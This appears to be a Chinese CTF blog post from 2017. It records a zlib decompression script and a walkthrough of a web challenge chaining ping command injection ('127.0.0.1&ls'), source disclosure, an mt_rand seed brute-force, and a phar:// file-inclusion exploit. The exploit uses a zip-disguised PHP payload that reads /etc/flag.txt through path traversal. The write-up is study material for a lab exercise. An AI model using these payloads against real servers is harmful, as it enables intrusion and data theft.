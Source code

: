```yaml
---
layout: post
title: 近期笔记
subtitle: 
author: Coink
date: 2017-11-19
categories:
tag:
- Science
---
```


最近隐写里zlib上镜率比较高，解压缩脚本记录下

```python
#! /usr/bin/env python
import zlib
import binascii
IDAT = "xxxxxxxxxxxxxxxxxxx".decode('hex')
result = binascii.hexlify(zlib.decompress(IDAT))
print result
print result.decode('hex')
```

一道命令执行跟文件包含结合的题：

输入会被当作ping命令执行，竖线被过滤，命令长度限制在3个字符以内，尝试127.0.0.1&ls，列出文件

![](https://i.loli.net/2017/11/19/5a1192adca3ad.png)

转到you_find_upload.php，发现一个随机数

![](https://i.loli.net/2017/11/19/5a1192addcc3d.png)

发现是可以查看源码的

![](https://i.loli.net/2017/11/19/5a1192ae0dfc8.png)

base64解码查看源码，尝试跨目录，发现../被过滤。

```php
<?php
        $type = array('gif','jpg','png');
        mt_srand((time() % rand(1,100000)%rand(1000,9000)));
        echo mt_rand();
        if (isset($_POST['submit'])) {
            $check = getimagesize($_FILES['file']['tmp_name']);
            @$extension = end(explode('.',$_FILES['file']['name']));
            if(in_array($extension,$type)){
                echo 'File is an image - ' . $check['mime'];
                $filename = '/var/www/html/web1/upload/'.mt_rand().'_'.$_FILES['file']['name']; 
                move_uploaded_file($_FILES['file']['tmp_name'], $filename);
                echo "<br>\n";
            } else {
                echo "File is not an image";
            }
        }
        if(isset($_GET['p'])){
            if(@preg_match("/\.\.\//",$_GET['p'])){
                echo "too young too simple";
            }
            else{
               @include $_GET['p'].".php";
            }
        }
        ?>
```

上传的文件只检查后缀，白名单三种图片格式，尝试解析漏洞绕过，无果。

解决随机数问题，发现本质就是随机数种子1000-9000，脚本（by YXM）：

```php
<?php
$t = 333347096;
for ($i = 1;$i<=9000;$i++){
    mt_srand($i);
    $r = mt_rand();
    if($r==333347096){
        echo "seed".$i."\n";
        break;
    }
}
mt_srand($i);
echo "check:".mt_rand()."\n";
echo "answer:".mt_rand();
?>
```

随机数问题解决了，尝试使用压缩上传，协议解压，php文件打包成zip，payload：

```php
<?php 
 $file = fopen('../../../../../../../../etc/flag.txt','r');

    if($file){
        while(!feof($file)){
            $line = fgetc($file);
            echo $line;
        }
    }
    fclose($file);
?>

```

抓包，修改zip文件后缀成png，记录随机数，丢到之前的脚本里跑出上传的目录

![](https://i.loli.net/2017/11/19/5a1192ae115bf.png)

seed404 check:718797317 answer:1230306824

接着用phar://协议解压，访问/web1/you_find_upload.php?p=phar://upload/1230306824_1.png/1

得到flag：

![](https://i.loli.net/2017/11/19/5a1192adbd276.png)

